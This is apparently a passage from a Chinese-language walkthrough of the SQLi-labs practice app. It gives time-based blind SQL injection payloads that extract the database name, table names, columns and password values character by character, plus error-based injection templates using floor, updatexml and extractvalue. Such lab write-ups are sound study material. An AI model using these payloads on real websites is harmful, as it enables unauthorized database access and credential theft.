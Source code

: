 

```
?id=1' and if(left(database(),1)='s',sleep(5),1)--+
```

明显延迟，数据库第一个字符为s，加下来以此增加left(database(),字符长度)中的字符长度，等号右边以此爆破下一个字符，正确匹配时会延迟。最终爆破得到left(database(),8)='security'

![image-20201110150059302](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110150059302.png)

```
爆表名
?id=1' and if( left((select table_name from information_schema.tables where table_schema=database() limit 3,1),1)='u' ,sleep(5),1)--+
```

![image-20201110151619242](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110151619242.png)

```
?id=1' and if( left((select table_name from information_schema.tables where table_schema=database() limit 3,1),2)='us' ,sleep(5),1)--+

?id=1' and if( left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users' ,sleep(5),1)--+
```

爆列名

```
?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+
```

爆破值payload

```
?id=1' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
?id=1' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
```

 法2：

报错注入

(1). 通过floor报错
and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)
其中payload为你要插入的SQL语句
需要注意的是该语句将 输出字符长度限制为64个字符

(2). 通过updatexml报错
and updatexml(1,payload,1)
同样该语句对输出的字符长度也做了限制，其最长输出32位
并且该语句对payload的反悔类型也做了限制，只有在payload返回的不是xml格式才会生效

(3). 通过ExtractValue报错
and extractvalue(1, payload)
输出字符有长度限制，最长32位
